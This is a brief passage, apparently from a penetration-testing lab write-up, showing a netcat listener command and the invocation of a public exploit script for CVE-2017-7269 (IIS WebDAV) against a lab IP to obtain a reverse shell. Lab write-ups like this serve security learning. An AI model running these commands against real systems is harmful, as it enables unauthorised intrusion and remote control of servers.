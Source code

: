 ![](./IMG/11.png)

- Set up nc listener on port 1337 
```
nc -nlvp 1337
```

- Execute the exploit code 
```
python cve-2017-7269.py 10.129.228.205 80 10.10.17.145.1337
```

![](./IMG/12.png)